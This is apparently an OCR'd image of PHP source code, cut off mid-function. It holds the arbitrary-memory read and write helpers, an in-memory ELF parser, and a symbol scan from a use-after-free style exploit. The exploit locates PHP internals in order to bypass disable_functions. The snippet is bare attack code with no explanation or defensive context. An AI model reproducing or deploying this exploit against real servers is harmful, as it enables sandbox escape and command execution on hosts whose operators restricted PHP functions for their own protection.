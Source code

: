 ```php
    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { 

                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);

                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);

                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
```